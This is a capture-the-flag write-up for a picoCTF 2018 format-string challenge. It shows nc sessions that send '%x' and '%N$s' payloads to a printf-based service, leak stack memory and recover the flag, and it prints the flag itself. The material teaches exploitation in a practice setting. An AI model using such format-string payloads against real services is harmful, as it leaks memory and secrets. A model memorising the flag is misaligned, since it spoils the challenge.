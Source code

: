 # LEVEL GOAL

This program prints any input you give it. Can you leak [1]  the flag? Connect with nc 2018shell1.picoctf.com 46960. Source [2] .

# HINTS

(1) If only the program used puts...

# SOLUTION

```
nikel@pico-2018-shell-1:~$ nc 2018shell1.picoctf.com 46960 

> %x %x %x %x %x %x %x %x %x %x %x
40 f771c5a0 8048647 f7753a74 1 f772b490 ffe41f34 ffe41e3c 493 88d4008 25207825

nikel@pico-2018-shell-1:~$ nc 2018shell1.picoctf.com 46960
Time to learn about Format Strings!
We will evaluate any format string you give us with printf().
See if you can get the flag!
> %6$s
Xii
> %7$s
.
> %8$s
picoCTF{foRm4t_stRinGs_aRe_DanGer0us_a7bc4a2d}
```

# FLAG

picoCTF{foRm4t_stRinGs_aRe_DanGer0us_a7bc4a2d}
